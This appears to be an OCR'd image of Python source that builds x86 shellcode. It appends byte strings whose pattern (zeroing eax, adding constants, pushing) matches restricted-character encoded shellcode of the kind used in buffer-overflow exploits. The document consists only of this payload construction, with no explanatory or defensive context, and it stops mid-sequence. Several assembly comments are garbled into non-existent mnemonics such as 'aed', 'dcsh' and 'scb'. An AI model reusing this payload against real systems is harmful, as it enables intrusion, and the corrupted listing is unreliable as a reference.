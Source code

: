 ```python
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x36\x51\x50\x50" ## add  eax, 0x50505136
shellcode += "\x05\x36\x51\x40\x40" ## add  eax, 0x40405136
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x26\x33\x06\x26" ## add  eax, 0x26063326
shellcode += "\x05\x26\x34\x05\x25" ## add  eax, 0x25053426
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x72\x41\x76\x73" ## add  eax, 0x73764172
shellcode += "\x05\x61\x41\x75\x64" ## add  eax, 0x64754161
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x43\x13\x73\x53" ## add  eax, 0x53731343
shellcode += "\x05\x43\x12\x63\x43" ## add  eax, 0x43631243
shellcode += "\x05\x43\x12\x53\x42" ## add  eax, 0x42531243
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x30\x12\x32\x50" ## add  eax, 0x50321230
shellcode += "\x05\x30\x02\x41\x50" ## add  eax, 0x50410230
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x33\x44\x41\x67" ## add  eax, 0x67414433
shellcode += "\x05\x32\x43\x32\x66" ## add  eax, 0x66324332
shellcode += "\x05\x22\x43\x31\x45" ## add  eax, 0x45314322
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x04\x32\x55\x56" ## add  eax, 0x56553204
shellcode += "\x05\x04\x32\x45\x45" ## add  eax, 0x45453204
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x41\x64\x67\x44" ## add  eax, 0x44676441
shellcode += "\x05\x41\x54\x56\x44" ## add  eax, 0x44565441
shellcode += "\x05\x31\x34\x45\x44" ## add  eax, 0x44453431
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x37\x72\x36\x54" ## add  eax, 0x54367237
shellcode += "\x05\x36\x61\x26\x44" ## add  eax, 0x44266136
shellcode += "\x05\x35\x52\x24\x43" ## add  eax, 0x43245235
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x67\x16\x43\x66" ## add  eax, 0x66431667
shellcode += "\x05\x56\x15\x43\x55" ## add  eax, 0x55431556
shellcode += "\x05\x45\x14\x43\x63" ## add  eax, 0x63431445
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x14\x74\x66\x73" ## add  eax, 0x73667414
shellcode += "\x05\x13\x64\x56\x63" ## add  eax, 0x63566413
```